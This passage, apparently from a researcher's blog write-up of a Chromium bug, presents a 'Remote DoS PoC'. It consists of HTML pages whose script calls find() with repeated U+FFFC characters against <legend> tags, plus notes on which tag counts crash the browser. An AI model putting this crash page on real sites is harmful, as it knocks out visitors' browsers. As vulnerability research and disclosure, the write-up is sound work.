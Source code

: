 `
chromium --single-process --no-sandbox all-html-tags.html
`

![]({{ site.url }}/assets/chrome-bug/all-html-tags.png)

As I see, it works with a couple of html tags like ``` <audio>, <script>  or <legend>```.


### 2.1 Remote DoS PoC

The following html demonstrates a remote crash. It waits until dom is loaded in the web page. 

Another interesting condition that I found by blackbox testing is that there is a condition between number of these tags and number of characters that send into the ```find()``` function as shared below:

During my first attempts it was not possible to add multiple this character as an input... But realizing this condition helped me to input multiple characters to test the bug more...  

For instance this one crashes:

```html
<!DOCTYPE html>
<html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
	find(decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>
</body>
</html>
```

but this one doesn't:

```html
<!DOCTYPE html>
<html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
	find(decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC')+decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>		<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>	<legend>Hi Ted!</legend>
</body>
</html>
```

